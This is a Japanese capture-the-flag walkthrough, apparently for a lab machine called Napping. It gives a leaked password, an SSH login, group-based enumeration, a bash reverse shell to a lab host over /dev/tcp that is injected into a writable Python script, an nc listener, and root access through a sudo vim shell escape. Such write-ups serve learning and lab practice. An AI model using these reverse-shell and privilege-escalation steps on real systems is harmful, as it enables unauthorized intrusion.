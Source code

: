 |ユーザ名|パスワード|
|:--|:--|
|daniel|C@ughtm3napping123|

### danielでssh
- `ssh daniel@192.168.56.105`


### システム内探索
- `id`
  - ユーザが1001,1002の複数所属しているグループを確認する
- `sudo -l`
- SUIDを確認 
- `groups`
  - administratorsグループに属しているのがわかる
### データベースにアクセスする
- 特に何もない

### danielユーザでできることが何もない
- このグループで実行できる他のユーザを探す

### グループの実行可能ファイルを探して、リバースシェル
- `find / -group administrators 2> /dev/null`
- `/home/adrian/query.py`が見つかる。adrianユーザに変更を目指す
### リバースシェルの準備
- `/dev/shm/`ディレクトリにvimで次のrevshell.shを書く
- revshell.shファイルを作る
  ```
  #/bin/bash
  bash -c 'bash -i >& /dev/tcp/192.168.56.102/4242 0>&1'
  ```
- `chmod +x revshell.sh`
- vimでquery.pyに`os.system('/usr/bin/bash /dev/shm/revshell.sh')`を書き込む
```py
import os

os.system('/usr/bin/bash /dev/shm/revshell.sh')

now = datetime.now()
```
### リバースシェルのセッションの確立
- ParrotOS側のターミナル
- `nc -lvnp 4242`
- 2分ほど待ってるとセッションが確立される

### 対話シェルを奪取


### ルートシェルの取得
- `sudo -l`
- `sudo /usr/bin/vim -c ':!/bin/sh'`
- `cd /root`
- `ls`
- `cat root.txt`
